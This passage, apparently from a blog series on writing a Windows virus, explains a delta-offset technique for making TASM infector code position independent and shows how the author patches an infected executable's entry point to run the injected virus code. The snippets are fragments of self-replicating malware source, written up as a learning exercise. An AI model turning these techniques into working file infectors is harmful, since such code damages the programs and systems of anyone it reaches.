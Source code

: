 ## Using the delta offset

I used `ebp` to hold the delta offset in the above snippet and in my virus code so to rewrite the original `findfirst` snippet to be position independent means going from something like:

```tasm {linenos=table}
findfirst:
  mov eax, offset infectFilter
  mov ebx, offset findData
  call FindFirstFileA, eax, ebx
  <snipped>
  mov [findHandle], eax

```

to an updated version that takes into account the delta offset in `ebp` for each variable reference:

```tasm {linenos=table}
findfirst:
  mov eax, offset infectFilter
  add eax, ebp
  mov ebx, offset findData
  add ebx, ebp
  call FindFirstFileA, eax, ebx
  <snipped>
  mov [ebp + findHandle], eax

```

In `pijector.asm` I rewrote all of the original `minijector.asm` variable references following the same process shown above. Now the virus code and variables are self-contained in the `DATA` section and the variable references are position independent thanks to the delta offset!

# Patching the target entrypoint

In order to see the delta offset calculation in action it's handy to have executables infected by generation 0 actually **run** the virus code when the infected executable is started.

In future posts I'll cover how to do this correctly so that when the virus code is finished doing its dirty work it can return execution to the infected program's original entry point. For now because the virus code is still incomplete I can update the entry point to jump to the virus code and not worry about anything else. The infected programs will be broken but that's fine for now.

To get the virus code to be executed by the infected program I updated `pijector.asm` to [set the entry point of the target executable](https://github.com/cpu/vexation/blob/4bf1084bffdfaf1b3d0c5cf3a2c137e107145137/pijector/pijector.asm#L312-L313) to the starting virtual address of the `.ireloc` segment (stored in `eax`):

```tasm
  ; While we have the virtual address pointer handy patch the entrypoint
  mov (IMAGE_NT_HEADERS [ecx]).OptionalHeader.AddressOfEntryPoint, eax
```

# Complete Assembly code


[welcome]: /2019/01/lets-write-a-virus/
[setup]: /2019/01/getting-set-up/
[pe-infector]: /2019/01/pe-file-infector-basics/